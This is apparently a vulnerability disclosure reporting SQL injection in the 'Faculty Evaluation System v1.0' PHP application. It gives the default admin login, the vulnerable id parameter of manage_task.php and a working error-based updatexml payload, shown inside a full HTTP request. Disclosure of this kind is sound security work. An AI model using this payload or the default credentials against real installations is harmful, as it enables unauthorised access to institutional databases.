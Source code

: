 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: 戚吴祺，田志宏，广州大学

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_task.php?id=

Vulnerability location: /eval/admin/manage_task.php?id=, id

dbname =evaluation_db

[+] Payload: /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233832362-0d030e91-ce80-4c07-8594-ef055a10f67d.png)
